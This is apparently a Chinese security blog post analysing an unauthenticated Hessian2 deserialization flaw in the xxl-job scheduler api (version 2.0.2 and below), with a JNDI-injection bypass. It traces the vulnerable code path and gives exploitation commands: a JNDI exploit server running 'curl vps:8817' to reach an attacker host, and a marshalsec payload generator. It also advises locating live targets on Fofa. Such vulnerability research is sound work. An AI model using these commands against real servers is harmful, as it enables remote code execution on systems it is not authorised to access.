



# xxl-job api 未授权 Hessian2 反序列化

## 前言

​ 最新版有师傅已经给出 POC, 配置执行器，新建任务对关联服务器执行 `shell` 命令，但是比较蛋疼的是可能关联服务在内网，无法直接从公网攻击.

​ 链接：[https://github.com/jas502n/xxl-job](https://github.com/jas502n/xxl-job)

**本文主要针对 xxl-job 低版本 api 接口存在 Hessian2 反序列化，可以直接攻击调度中心.**

## 测试环境

xxl-job 2.0.2

Jdk: 8u191

Linux

## JobApiController#api

在 version`<`2.0.2 版本中，`JobApiController#api` 中调用 `invokeAdminService` 处理请求数据。且设置了造成 `@PermessionLimit(limit=false)` 访问该接口不需要鉴权

[](https://xzfile.aliyuncs.com/media/upload/picture/20201029025631-4af6c5bc-194f-1.png)

直接单步跟进 `com.xxl.job.admin.core.schedule.XxlJobDynamicScheduler.invokeAdminService`\=>`com.xxl.rpc.remoting.net.impl.servlet.server.ServletServerHandler.handle` 方法中，调用 `parseRequest` 处理 `request` 对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20201029025650-55f31146-194f-1.png)

继续跟进，调用 `readBytes` 读取请求中的数据，最终是调用 `Hessian2` 反序列化 `requestBytes`.

[](https://xzfile.aliyuncs.com/media/upload/picture/20201029025700-5c19bed0-194f-1.png)

## JNDI Bypass

参考：[https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)

在测试时候总需要一个比较稳定的 POC，高版本 JDK 对 JNDI 注入进行限制即限制远程类加载，表现在如 RMI/LDAP 服务收到请求，HTTP 服务无响应.

绕过的思路是：在 CLASSPATH 中找到工厂类，对引用的 Reference 属性添加危险方法或属性，该危险方法也需要在 CLASSPATH 中存在.

原文作者利用 Apache Tomcat 中的 `org.apache.naming.factory.BeanFactory` 类，结合 `javax.el.ELProcessor` 执行任意代码。赶巧的是 `xxl-job` 基于 `Spring` 框架，底层是利用 `tomcat` 服务器.

[](https://xzfile.aliyuncs.com/media/upload/picture/20201029030207-1369fd66-1950-1.png)

## 复现

现成的 JNDI Bypass 利用工具已经有师傅写好，可以直接拿来用

[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

```plain
# 启动服务
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 0.0.0.0 -C "curl vps:8817"

# 生成payload
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor [rmi服务] > ~/Desktop/test13.ser
```

Fofa 上找个 xxl-job, 具体指纹访问 api 会有如下报错.

[](https://xzfile.aliyuncs.com/media/upload/picture/20201029025728-6d19d846-194f-1.png)

利用如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20201029030009-ccd88930-194f-1.png)

# 参考链接

[https://www.xuxueli.com/xxl-job/](https://www.xuxueli.com/xxl-job/)

[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

[https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
